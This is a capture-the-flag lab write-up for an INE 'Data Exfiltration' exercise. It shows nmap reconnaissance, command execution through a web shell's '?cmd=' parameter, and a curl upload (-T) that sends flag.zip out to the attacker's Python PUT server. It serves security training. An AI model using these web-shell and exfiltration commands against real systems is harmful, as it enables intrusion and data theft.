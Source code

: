 # 🔬Data Exfiltration

The Kali OS GUI instance is web hosted on the INE website, where:

* You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a _low privilege user_ (i.e. student). A sensitive flag file is kept in a zipped archive file in the _student user's home directory_.
* There is a monitor process running on the server machine that blocks most protocols _except HTTP protocol_ (when using port **80**).
* The API endpoint is accessible at `demo.ine.local` domain.

_Objective_: Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

_**Tools**_ used:

* **`nmap`**, **`curl`**
* A web browser
* Python Scripting

## SOLUTION

*   Check Kali instance IP address and ping the vulnerable server.


```bash
ip -br -c a
ping demo.ine.local
```

```shell
root@INE:~# ip -br -c a
eth1@if126466    UP             192.70.33.2/24 
lo               UNKNOWN        127.0.0.1/8 
ip_vti0@NONE     DOWN           
eth0@if126463    UP             10.1.0.17/16

root@INE:~# ping demo.ine.local
PING demo.ine.local (192.70.33.3) 56(84) bytes of data.
64 bytes from demo.ine.local (192.70.33.3): icmp_seq=1 ttl=64 time=0.159 ms
```

* The web server IP is `192.70.33.3`

### nmap

*   Perform an `nmap` scan to check open ports on the server:

    *   _Simple scan_:

```bash
sudo nmap demo.ine.local
```

```bash
root@INE:~# sudo nmap demo.ine.local
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-05 15:34 IST
Nmap scan report for demo.ine.local (192.70.33.3)
Host is up (0.0000080s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
8000/tcp open  http-alt
MAC Address: 02:42:C0:46:21:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
```

*   _Advanced scan_:

```bash
sudo nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3
```

**`-sC`** - for default scripts
**`-sV`** - probe open ports to determine service/versions info
**`-oA`** - output all 3 major formats in a directory

```shell
root@INE:~# less nmap/dataexfiltration.nmap

# Nmap 7.92 scan initiated Thu May  5 14:31:09 2022 as: nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3
Nmap scan report for demo.ine.local (192.70.33.3)
Host is up (0.0000080s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8000/tcp open  http    Werkzeug httpd 0.15.2 (Python 2.7.16)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 02:42:C0:46:21:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  5 14:31:15 2022 -- 1 IP address (1 host up) scanned in 6.91 seconds
```

- A Python2 web server (Werkzeug) is running on open port **8000**.
- Check the response from a browser by visiting `http://demo.ine.local:8000/`

![](p.t.-prerequisites-labsassets/image-20220505111539250.png)

### Web shell commands

* Pass a parameter named `cmd` with the URL, using `?cmd=VALUE` in the URL:
  * **`http://demo.ine.local:8000/?cmd=pwd`**

![](p.t.-prerequisites-labsassets/image-20220505120650948.png)

* **`http://demo.ine.local:8000/?cmd=ls+-l`** - check contents of pwd:

![](p.t.-prerequisites-labsassets/image-20220505120905753.png)

* _flag.zip_ file must be transferred to the Kali instance.
* Check if `curl` command is present on the server
  * **`http://demo.ine.local:8000/?cmd=curl+-h`** - curl is present:

![](p.t.-prerequisites-labsassets/image-20220505121232523.png)

* `curl` can be used to exfiltrate the flag.zip file by sending it over HTTP protocol to a local HTTP server on the Kali instance, using the **`-T`** option:

> \-T, --upload-file This transfers the specified local file to the remote URL. If there is no file part in the specified URL, curl will append the local file name. NOTE that you must use a trailing / on the last directory to really prove to Curl that there is no file name or curl will think that your last directory name is the remote file name to use. That will most likely cause the upload oper‐ ation to fail. If this is used on an HTTP(S) server, the PUT command will be used.

### Python HTTP server

* Run a HTTP server on the local machine using python:

```bash
python -m SimpleHTTPServer 80
```


  * The Kali instance IP is `192.70.33.2`
  * `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
  * _Error response - Unsupported method ('PUT')_

![](p.t.-prerequisites-labsassets/image-20220505125425734.png)

* (Same error with **`python3 -m http.server 80`**)
*   Create a Python script to run an _HTTP server supporting PUT_.

```shell
root@INE:~# which python
/usr/bin/python

root@INE:~# nano httpserver.py
```

- Add the following code to the htttserver.py script:

```python
#!/usr/bin/python
import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))

if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```

> _Thanks to_ [_BigBlueHat_](https://gist.github.com/BigBlueHat/0ca3894f715aac2f2e40af3a8aa0a436) _for the script._

* Run the SimpleHTTP server using the script:

```bash
python httpserver.py 80
```

* Try again the PUT request `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
  * Archive `flag.zip` was received by the server.

![](p.t.-prerequisites-labsassets/image-20220505130449931.png)

* Stop the running HTTP server and check the folder for the downloaded file.

```bash
ls -l
```

![](p.t.-prerequisites-labsassets/image-20220505131132654.png)

* Unzip the archive and retrieve the flag:

```bash
unzip flag.zip
cat flag/flag.txt
```

![](p.t.-prerequisites-labsassets/image-20220505131635395.png)

> 📍 Lab solved!
>
> 📌 Check [An Introduction to Web Shells - by Acunetix](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)
